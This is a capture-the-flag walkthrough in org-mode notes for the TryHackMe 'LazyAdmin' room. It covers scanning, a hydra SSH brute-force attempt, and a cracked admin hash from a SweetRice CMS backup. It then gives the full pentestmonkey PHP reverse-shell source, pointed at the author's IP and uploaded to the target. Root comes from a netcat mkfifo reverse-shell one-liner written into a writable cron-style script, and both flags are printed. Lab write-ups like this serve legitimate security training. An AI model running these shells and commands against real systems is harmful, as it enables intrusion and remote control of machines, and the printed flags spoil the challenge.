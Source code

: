 #+TITLE: https://tryhackme.com/room/lazyadmin

- nmap

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lazy]
└──╼ # cat nmap/scan.nmap
# Nmap 7.91 scan initiated Thu Nov 12 02:43:20 2020 as: nmap -sC -sV -oA nmap/scan 10.10.62.227
Nmap scan report for 10.10.62.227
Host is up (0.12s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        # Nmap done at Thu Nov 12 02:43:48 2020 -- 1 IP address (1 host up) scanned in 28.85 seconds

#+end_src

* gobuster

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lazy]
└──╼ # gobuster dir -u 10.10.31.213/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.31.213/content
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/12 04:55:03 Starting gobuster
===============================================================
/images (Status: 301)
/js (Status: 301)
/inc (Status: 301)
/as (Status: 301)
/_themes (Status: 301)
/attachment (Status: 301)
Progress: 31190 / 87665 (35.58%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/12 05:00:23 Finished
===============================================================

#+end_src

* searchsploit

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/lazy]
└──╼ # searchsploit sweet
------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                              |  Path
 ------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Joomla! Component Sweetykeeper 1.5 - Local File Inclusion                                                                                                   | php/webapps/12182.txt
 SweetCMS 1.5.2 - 'index.php' SQL Injection                                                                                                                  | php/webapps/32490.txt
 SweetRice 0.5.3 - Remote File Inclusion                                                                                                                     | php/webapps/10246.txt
 SweetRice 0.6.7 - Multiple Vulnerabilities                                                                                                                  | php/webapps/15413.txt
 SweetRice 1.5.1 - Arbitrary File Download                                                                                                                   | php/webapps/40698.py
 SweetRice 1.5.1 - Arbitrary File Upload                                                                                                                     | php/webapps/40716.py
 SweetRice 1.5.1 - Backup Disclosure                                                                                                                         | php/webapps/40718.txt
 SweetRice 1.5.1 - Cross-Site Request Forgery                                                                                                                | php/webapps/40692.html
 SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                                                                           | php/webapps/40700.html
 SweetRice < 0.6.4 - 'FCKeditor' Arbitrary File Upload                                                                                                       | php/webapps/14184.txt
 Zendesk App SweetHawk Survey 1.6 - Persistent Cross-Site Scripting                                                                                          | java/webapps/47781.txt
 ------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Shellcodes: No Results

#+end_src

* bruteforcing
: hydra -l root -P rockyou.txt -u 10.10.31.213 ssh
- didnt work
* found backup file
- username
  : manager
- password
  : (md5) 2f749ade7f9e195bf475f37a44cafcb

#+begin_src sql

<?php return array (
  0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
  1 => 'CREATE TABLE `%--%_attachment` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `post_id` int(10) NOT NULL,
  `file_name` varchar(255) NOT NULL,
  `date` int(10) NOT NULL,
  `downloads` int(10) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  2 => 'DROP TABLE IF EXISTS `%--%_category`;',
  3 => 'CREATE TABLE `%--%_category` (
  `id` int(4) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `link` varchar(128) NOT NULL,
  `title` text NOT NULL,
  `description` varchar(255) NOT NULL,
  `keyword` varchar(255) NOT NULL,
  `sort_word` text NOT NULL,
  `parent_id` int(10) NOT NULL DEFAULT \'0\',
  `template` varchar(60) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `link` (`link`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  4 => 'DROP TABLE IF EXISTS `%--%_comment`;',
  5 => 'CREATE TABLE `%--%_comment` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(60) NOT NULL DEFAULT \'\',
  `email` varchar(255) NOT NULL DEFAULT \'\',
  `website` varchar(255) NOT NULL,
  `info` text NOT NULL,
  `post_id` int(10) NOT NULL DEFAULT \'0\',
  `post_name` varchar(255) NOT NULL,
  `post_cat` varchar(128) NOT NULL,
  `post_slug` varchar(128) NOT NULL,
  `date` int(10) NOT NULL DEFAULT \'0\',
  `ip` varchar(39) NOT NULL DEFAULT \'\',
  `reply_date` int(10) NOT NULL DEFAULT \'0\',
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  6 => 'DROP TABLE IF EXISTS `%--%_item_data`;',
  7 => 'CREATE TABLE `%--%_item_data` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `item_id` int(10) NOT NULL,
  `item_type` varchar(255) NOT NULL,
  `data_type` varchar(20) NOT NULL,
  `name` varchar(255) NOT NULL,
  `value` text NOT NULL,
  PRIMARY KEY (`id`),
  KEY `item_id` (`item_id`),
  KEY `item_type` (`item_type`),
  KEY `name` (`name`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  8 => 'DROP TABLE IF EXISTS `%--%_item_plugin`;',
  9 => 'CREATE TABLE `%--%_item_plugin` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `item_id` int(10) NOT NULL,
  `item_type` varchar(255) NOT NULL,
  `plugin` varchar(255) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  10 => 'DROP TABLE IF EXISTS `%--%_links`;',
  11 => 'CREATE TABLE `%--%_links` (
  `lid` int(10) NOT NULL AUTO_INCREMENT,
  `request` text NOT NULL,
  `url` text NOT NULL,
  `plugin` varchar(255) NOT NULL,
  PRIMARY KEY (`lid`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  12 => 'DROP TABLE IF EXISTS `%--%_options`;',
  13 => 'CREATE TABLE `%--%_options` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `content` mediumtext NOT NULL,
  `date` int(10) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `name` (`name`)
) ENGINE=MyISAM AUTO_INCREMENT=4 DEFAULT CHARSET=utf8;',
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
  15 => 'INSERT INTO `%--%_options` VALUES(\'2\',\'categories\',\'\',\'1575023409\');',
  16 => 'INSERT INTO `%--%_options` VALUES(\'3\',\'links\',\'\',\'1575023409\');',
  17 => 'DROP TABLE IF EXISTS `%--%_posts`;',
  18 => 'CREATE TABLE `%--%_posts` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `title` varchar(255) NOT NULL,
  `body` longtext NOT NULL,
  `keyword` varchar(255) NOT NULL DEFAULT \'\',
  `tags` text NOT NULL,
  `description` varchar(255) NOT NULL DEFAULT \'\',
  `sys_name` varchar(128) NOT NULL,
  `date` int(10) NOT NULL DEFAULT \'0\',
  `category` int(10) NOT NULL DEFAULT \'0\',
  `in_blog` tinyint(1) NOT NULL,
  `views` int(10) NOT NULL,
  `allow_comment` tinyint(1) NOT NULL DEFAULT \'1\',
  `template` varchar(60) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `sys_name` (`sys_name`),
  KEY `date` (`date`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
);?>

#+end_src

* uploaded php_reverse_shell

<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.6.27.168';  // CHANGE THIS
$port = 6969;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
* users
- itguy
  - flag
    : THM{63e5bce9271952aad1113b6f1ac28a07}
* interesting files

#+begin_src perl

www-data@THM-Chal:/home/itguy$ cat backup.pl
    cat backup.pl
    #!/usr/bin/perl

        system("sh", "/etc/copy.sh");

#+end_src

#+begin_src sh

www-data@THM-Chal:~$ cat /etc/copy.sh
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

#+end_src

* exploit

#+begin_src bash

echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> 1337 >/tmp/f' >/etc/copy.sh

#+end_src

- root.txt
  : THM{6637f41d0177b6f37cb20d775124699f}
